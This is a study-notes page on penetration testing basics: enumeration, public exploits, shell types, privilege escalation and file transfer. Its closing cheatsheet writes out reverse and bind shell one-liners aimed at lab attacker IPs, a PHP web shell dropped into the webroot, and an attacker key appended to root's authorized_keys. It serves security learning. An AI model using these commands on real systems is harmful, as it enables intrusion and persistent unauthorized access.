

Pentesting Basics
Information Security
The CIA Triad is the cornerstone of any organization's security infrastructure; in fact, they (should) function as goals and objectives for every security program.
- Confidentiality
Protection of your most sensitive information from unauthorized access.
- Integrity
Protection of data from modification or deletion by unauthorized parties, and ensuring that when authorized people make changes that shouldn't have been made the damage can be undone.
- Availability
Systems, access channels, and authentication mechanisms must all be working properly for the information they provide and protect to be available when needed.
In infosec, we usually hear the terms red team and blue team. In the simplest terms, the red team plays the attackers' role, while the blue team plays the defenders' part.
Common Terms
Shell
A shell is a program that takes input from the user via the keyboard and passes these commands to the operating system to perform a specific function.
Most Linux systems use a program called Bash (Bourne Again Shell) as a shell program to interact with the operating system.
Bash is an enhanced version of sh, the original unix shell.
Aside from bash there are also other shells like Zsh, Tcsh, Ksh, Fish shell, etc.
Port
Web Server
A web server is an application that runs on the back-end server, which handles all of the HTTP traffic from the client-side browser, routes it to the requests destination pages, and finally responds to the client-side browser. Web servers usually run on TCP ports 80 or 443, and are responsible for connecting end-users to various parts of the web application, in addition to handling their various responses.
OWASP TOP 10
| Number | Category | Description |
|---|---|---|
| 1. | Injection | SQL injection, command injection, LDAP injection, etc. |
| 2. | Broken Authentication | Authentication and session management misconfigurations can lead to unauthorized access to an application through password guessing attacks or improper session timeout, among other issues. |
| 3. | Sensitive Data Exposure | Improperly protecting data such as financial, healthcare, or personally identifiable information. |
| 4. | XML External Entities (XXE) | Poorly configured XML processors that can lead to internal file disclosure, port scanning, remote code execution, or denial of service attacks. |
| 5. | Broken Access Control | Restrictions are not appropriately implemented to prevent users from accessing other users accounts, viewing sensitive data, accessing unauthorized functionality, modifying data, etc. |
| 6. | Security Misconfiguration | Insecure default configurations, open cloud storage, verbose error messages which disclose too much information. |
| 7. | Cross-Site Scripting (XSS) | XSS occurs when an application does not properly sanitize user-supplied input, allowing for the execution of HTML or JavaScript in a victim's browser. This can lead to session hijacking, website defacement, redirecting a user to a malicious website, etc. |
| 8. | Insecure Deserialization | This flaw often leads to remote code execution, injection attacks, or privilege escalation attacks. |
| 9. | Using Components with Known Vulnerabilities | All of the components used by an application (libraries, frameworks, software modules) run with the same privilege as the application. If the application uses components with known flaws, it may lead to sensitive data exposure or remote code execution. |
| 10. | Insufficient Logging & Monitoring | Deficiencies in logging & monitoring may allow a successful attack to go unnoticed, for attackers to establish persistence in the network, or tamper with or extract sensitive data without being noticed. |
Basic Tools
ssh
Secure Shell (SSH) is a network protocol that runs on port 22 by default and provides users such as system administrators a secure way to access a computer remotely. SSH can be configured with password authentication or passwordless using public-key authentication using an SSH public/private key pair.
netcat
Netcat, ncat, or nc, is a network utility for interacting with TCP/UDP ports. It can be used for many things during a pentest. Its primary usage is for connecting to shells.
socat
socat has a few features that netcat does not support, like forwarding ports and connecting to serial devices. Socat can also be used to upgrade a shell to a fully interactive TTY. A standalone binary of Socat can be transferred to a system after obtaining remote code execution to get a more stable reverse shell connection.
tmux
tmux is an open-source terminal multiplexer for Unix-like operating systems. It allows multiple terminal sessions to be accessed simultaneously in a single window. It is useful for running more than one command-line program at the same time.
vi/vim
Vim is a text editor that can be used for writing code or editing text files on Linux systems. One of the great benefits of using Vim is that it relies entirely on the keyboard nad that it's included on almost every linux system.
Service Scanning
A service is an application running on a computer that performs some useful function for other users or computers.
We scan for services with nmap. To scan for services we need an IP. There are several scans possible (TCP SYN/Connect()/ACK/Window/Maimon and other). Running as root, we usually use the defaul TCP SYN scan (-sS)
A typical scan (results included) can look like this:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 | |
Web Enumeration
When performing service scanning, we will often run into web servers running on ports 80 and 443. Webservers host web applications (sometimes more than 1) which often provide a considerable attack surface and a very high-value target during a penetration test. Proper web enumeration is critical, especially when an organization is not exposing many services or those services are appropriately patched.
gobuster
After discovering a web application, it is always worth checking to see if we can uncover any hidden files or directories on the webserver that are not intended for public access. We can use a tool such as ffuf or GoBuster to perform this directory enumeration. Sometimes we will find hidden functionality or pages/directories exposing sensitive data that can be leveraged to access the web application or even remote code execution on the web server itself.
For a directory scan, whatever tool we use, we need a wordlist. A very popular collection of wordlist is Seclists.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 | |
We can enumerate subdomains as well. We use the dns flag with gobuster. There has to be a dns resolver available and it has to be used the domain name
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 | |
Additional Web Enumeration Methods
Banner Grabbing / Web Server Headers
We can grab the banner with curl. Another tool is EyeWitness, which can be used to take screenshots of target web applications, fingerprint them, and identify possible default credentials.
1 2 3 4 5 6 7 8 | |
Whatweb
We can extract the version of web servers, supporting frameworks, and applications using the command-line tool whatweb. This information can help us pinpoint the technologies in use and begin to search for potential vulnerabilities.
1 2 3 | |
Check ssl certificate
SSL/TLS certificates can give us names, emails, subdomains. It's always good to check.
Check robots.txt
t is common for websites to contain a robots.txt file, whose purpose is to instruct search engine web crawlers such as Googlebot which resources can and cannot be accessed for indexing. The robots.txt file can provide valuable information such as the location of private files and admin pages.
Check Source Code
Source code can reveal forgotten credentials or notices in the comments the developer forgot.
Public exploits
Once we identify the services running on ports identified from our nmap scan, the first step is to look if any of the applications/services have any public exploits. Public exploits can be found for web applications and other applications running on open ports, like SSH or ftp.
We can use google to search for exploits by simply adding the service and version number followed by the phrase exploit.

We can also utilize online exploit databases to search for vulnerabilities, like Exploit DB, Rapid7 DB, or Vulnerability Lab.
Mostly we use searchsploit
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 | |
Types of Shells
| Shell Type | Description |
|---|---|
Reverse shell |
Initiates a connection back to a "listener" on our attack box. |
Bind shell |
"Binds" to a specific port on the target host and waits for a connection from our attack box. |
Web shell |
Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a PHP script to run a single command. |
Upgrading Simple Shells to Fully Interactive TTYs
Reverse shell
Once we identify a vulnerability on the remote host that allows remote code execution, we can start a netcat listener on our machine that listens on a specific port, say port 1234. With this listener in place, we can execute a reverse shell command that connects the remote systems shell, i.e., Bash or PowerShell to our netcat listener, which gives us a reverse connection over the remote system.
1 2 3 | |
| Flag | Description |
|---|---|
-l |
Listen mode, to wait for a connection to connect to us. |
-v |
Verbose mode, so that we know when we receive a connection. |
-n |
Disable DNS resolution and only connect from/to IPs, to speed up the connection. |
-p 1234 |
Port number netcat is listening on, and the reverse connection should be sent to. |
The command we execute depends on what operating system the compromised host runs on, i.e., Linux or Windows, and what applications and commands we can access. The Payload All The Things page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.
Examples for reverse shells (Linux and Windows)
Code: bash
1 | |
Code: bash
1 | |
Code: powershell
1 | |
Bind Shell
Another type of shell is a Bind Shell. Unlike a Reverse Shell that connects to us, we will have to connect to it on the targets' listening port.
Once again, we can utilize Payload All The Things to find a proper command to start our bind shell.
The following are reliable commands we can use to start a bind shell:
Code: bash
1 | |
Code: python
1 | |
Code: powershell
1 | |
Upgrading a shell
1 2 3 4 5 6 | |
We may notice that our shell does not cover the entire terminal. To fix this, we need to figure out a few variables. We can open another terminal window on our system, maximize the windows or use any size we want, and then input the following commands to get our variables:
1 2 3 | |
1 2 3 | |
1 2 3 | |
Web Shell
The final type of shell we have is a Web Shell. A Web Shell is typically a web script, i.e., PHP or ASPX, that accepts our command through HTTP request parameters such as GET or POST request parameters, executes our command, and prints its output back on the web page.
Writing a Web Shell
First of all, we need to write our web shell that would take our command through a GET request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:
Code: php
1 | |
Code: jsp
1 | |
Code: asp
1 | |
Uploading a Web Shell
Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. shell.php and upload it, and then access our uploaded file to execute commands.
However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:
| Web Server | Default Webroot |
|---|---|
Apache |
/var/www/html/ |
Nginx |
/usr/local/nginx/html/ |
IIS |
c:\inetpub\wwwroot\ |
XAMPP |
C:\xampp\htdocs\ |
We can check these directories to see which webroot is in use and then use echo to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a PHP shell with the following command:
Code: bash
1 | |
Accessing Web Shell
Once we write our web shell, we can either access it through a browser or by using cURL. We can visit the shell.php page on the compromised website, and use ?cmd=id to execute the id command.
Or using curl:
1 2 3 | |
As we can see, we can keep changing the command to get its output. A great benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on 80 or 443, or whatever port the web application is using. Another great benefit is that if the compromised host is rebooted, the web shell would still be in place, and we can access it and get command execution without exploiting the remote host again.
On the other hand, a web shell is not as interactive as reverse and bind shells are since we have to keep requesting a different URL to execute our commands.
Privilege Escalation
PrivEsc Checklists
Once we gain initial access to a box, we want to thoroughly enumerate the box to find any potential vulnerabilities we can exploit to achieve a higher privilege level. We can find many checklists and cheat sheets online that have a collection of checks we can run and the commands to run these checks. One excellent resource is HackTricks, which has an excellent checklist for both Linux and Windows local privilege escalation. Another excellent repository is PayloadsAllTheThings, which also has checklists for both Linux and Windows. We must start experimenting with various commands and techniques and get familiar with them to understand multiple weaknesses that can lead to escalating our privileges.
Another useful tool we may use for server enumeration is the Privilege Escalation Awesome Scripts SUITE (PEASS), as it is well maintained to remain up to date and includes scripts for enumerating both Linux and Windows.
Enumeration Scripts
Some of the common Linux enumeration scripts include LinEnum and linuxprivchecker, and for Windows include Seatbelt and JAWS. Another useful tool we may use for server enumeration is the Privilege Escalation Awesome Scripts SUITE (PEASS), as it is well maintained to remain up to date and includes scripts for enumerating both Linux and Windows.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 | |
Kernel Exploits
Look for vulnerable kernels. For example, the above script showed us the Linux version to be 3.9.0-73-generic. If we Google exploits for this version or use searchsploit, we would find a CVE-2016-5195, otherwise known as DirtyCow. We can search for and download the DirtyCow exploit and run it on the server to gain root access.
Vulnerable Software
Another thing we should look for is installed software. For example, we can use the dpkg -l command on Linux or look at C:\Program Files in Windows to see what software is installed on the system. We should look for public exploits for any installed software, especially if any older versions are in use, containing unpatched vulnerabilities.
User privileges
An user with lower privileges can sometimes run scripts or programs with higher privileges. Therefore we should look at:
- Sudo
- SUID
- Windows Token Privileges
1 2 3 4 5 6 7 | |
The above output says that we can run all commands with sudo, which gives us complete access, and we can use the su command with sudo to switch to the root user:
1 | |
Once we find a particular application we can run with sudo, we can look for ways to exploit it to get a shell as the root user. GTFOBins contains a list of commands and how they can be exploited through sudo
LOLBAS also contains a list of Windows applications which we may be able to leverage to perform certain functions, like downloading files or executing commands in the context of a privileged user.
Scheduled Tasks
In both Linux and Windows, there are methods to have scripts run at specific intervals to carry out a task. Some examples are having an anti-virus scan running every hour or a backup script that runs every 30 minutes. There are usually two ways to take advantage of scheduled tasks (Windows) or cron jobs (Linux) to escalate our privileges:
- Add new scheduled tasks/cron jobs
- Trick them to execute a malicious software
The easiest way is to check if we are allowed to add new scheduled tasks. In Linux, a common form of maintaining scheduled tasks is through Cron Jobs. There are specific directories that we may be able to utilize to add new cron jobs if we have the write permissions over them. These include:
/etc/crontab/etc/cron.d/var/spool/cron/crontabs/root
If we can write to a directory called by a cron job, we can write a bash script with a reverse shell command, which should send us a reverse shell when executed.
Exposed Credential
Sometimes credentials are stored inf configuration files or log files (bash_history in Linux and PSReadLine in Windows).
We may also check for Password Reuse, as the system user may have used their password for the databases, which may allow us to use the same password to switch to that user.
SSH Keys
If we have read access over the .ssh directory for a specific user, we may read their private ssh keys found in /home/user/.ssh/id_rsa or /root/.ssh/id_rsa, and use it to log in to the server.
If we find ourselves with write access to a users/.ssh/ directory, we can place our public key in the user's ssh directory at /home/user/.ssh/authorized_keys. This technique is usually used to gain ssh access after gaining a shell as that user. We must first create a new key (on the attacker system) with ssh-keygen and the -f flag to specify the output file:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 | |
This will give us two files: key (which we will use with ssh -i) and key.pub, which we will copy to the remote machine. Let us copy key.pub, then on the remote machine, we will add it into /root/.ssh/authorized_keys:
1 | |
Now, the remote server should allow us to log in as that user by using our private key:
1 2 3 | |
Transfering files
During any penetration testing exercise, it is likely that we will need to transfer files to the remote server, such as enumeration scripts or exploits, or transfer data back to our attack host.
First we need to start a listening server in the directory where the files we want to transfer are.
1 2 3 4 | |
After that we can transfer the files we need from the other host connecting to the listening python server.
1 2 3 4 5 6 7 8 | |
1 2 3 | |
Using base 64
In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it. For example, if we wanted to transfer a binary file called shell, we can base64 encode it as follows:
1 2 3 | |
Now, we can copy this base64 string, go to the remote host, and use base64 -d to decode it, and pipe the output into a file:
1 | |
Basic Linux Tools Cheatsheet
| Command | Description |
|---|---|
| General | |
sudo openvpn user.ovpn |
Connect to VPN |
ifconfig/ip a |
Show our IP address |
netstat -rn |
Show networks accessible via the VPN |
ssh user@10.10.10.10 |
SSH to a remote server |
ftp 10.129.42.253 |
FTP to a remote server |
| tmux | |
tmux |
Start tmux |
ctrl+b ctrl+c |
tmux: new window |
ctrl+b 1 |
tmux: switch to window (1) |
ctrl+% |
tmux: split pane vertically |
ctrl+" |
tmux: split pane horizontally |
ctrl+-> |
tmux: switch to the right pane |
| Vim | |
vim file |
vim: open file with vim |
esc+i |
vim: enter insert mode |
esc |
vim: back to normal mode |
x |
vim: Cut character |
dw |
vim: Cut word |
dd |
vim: Cut full line |
yw |
vim: Copy word |
yy |
vim: Copy full line |
p |
vim: Paste |
:1 |
vim: Go to line number 1. |
:w |
vim: Write the file 'i.e. save' |
:q |
vim: Quit |
:q! |
vim: Quit without saving |
:wq |
vim: Write and quit |
Basic Pentesting Cheatsheet
| Command | Description |
|---|---|
| Service Scanning | |
nmap 10.129.42.253 |
Run nmap on an IP |
nmap -sV -sC -p- 10.129.42.253 |
Run an nmap script scan on an IP |
locate scripts/citrix |
List various available nmap scripts |
nmap --script smb-os-discovery.nse -p445 10.10.10.40 |
Run an nmap script on an IP |
netcat 10.10.10.10 22 |
Grab banner of an open port |
smbclient -N -L \\\\10.129.42.253 |
List SMB Shares |
smbclient \\\\10.129.42.253\\users |
Connect to an SMB share |
snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0 |
Scan SNMP on an IP |
onesixtyone -c dict.txt 10.129.42.254 |
Brute force SNMP secret string |
| Web Enumeration | |
gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt |
Run a directory scan on a website |
gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt |
Run a sub-domain scan on a website |
curl -IL https://www.inlanefreight.com |
Grab website banner |
whatweb 10.10.10.121 |
List details about the webserver/certificates |
curl 10.10.10.121/robots.txt |
List potential directories in robots.txt |
ctrl+U |
View page source (in Firefox) |
| Public Exploits | |
searchsploit openssh 7.2 |
Search for public exploits for a web application |
msfconsole |
MSF: Start the Metasploit Framework |
search exploit eternalblue |
MSF: Search for public exploits in MSF |
use exploit/windows/smb/ms17_010_psexec |
MSF: Start using an MSF module |
show options |
MSF: Show required options for an MSF module |
set RHOSTS 10.10.10.40 |
MSF: Set a value for an MSF module option |
check |
MSF: Test if the target server is vulnerable |
exploit |
MSF: Run the exploit on the target server is vulnerable |
| Using Shells | |
nc -lvnp 1234 |
Start a nc listener on a local port |
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1' |
Send a reverse shell from the remote server |
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f |
Another command to send a reverse shell from the remote server |
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f |
Start a bind shell on the remote server |
nc 10.10.10.1 1234 |
Connect to a bind shell started on the remote server |
python -c 'import pty; pty.spawn("/bin/bash")' |
Upgrade shell TTY (1) |
ctrl+z then stty raw -echo then fg then enter twice |
Upgrade shell TTY (2) |
echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php |
Create a webshell php file |
curl http://SERVER_IP:PORT/shell.php?cmd=id |
Execute a command on an uploaded webshell |
| Privilege Escalation | |
./linpeas.sh |
Run linpeas script to enumerate remote server |
sudo -l |
List available sudo privileges |
sudo -u user /bin/echo Hello World! |
Run a command with sudo |
sudo su - |
Switch to root user (if we have access to sudo su) |
sudo su user - |
Switch to a user (if we have access to sudo su) |
ssh-keygen -f key |
Create a new SSH key |
echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys |
Add the generated public key to the user |
ssh root@10.10.10.10 -i key |
SSH to the server with the generated private key |
| Transferring Files | |
python3 -m http.server 8000 |
Start a local webserver |
wget http://10.10.14.1:8000/linpeas.sh |
Download a file on the remote server from our local machine |
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh |
Download a file on the remote server from our local machine |
scp linenum.sh user@remotehost:/tmp/linenum.sh |
Transfer a file to the remote server with scp (requires SSH access) |
base64 shell -w 0 |
Convert a file to base64 |
echo f0VMR...SNIO...InmDwU \| base64 -d > shell |
Convert a file from base64 back to its orig |
md5sum shell |
Check the file's md5sum to ensure it converted correctlyBasic Tools |
Comments
Any feedback and suggestions are welcome. This website was created using mkdocs and the material plugin. If you want, you can make a pull request. The repository is https://github.com/dabonzo/itsec_hp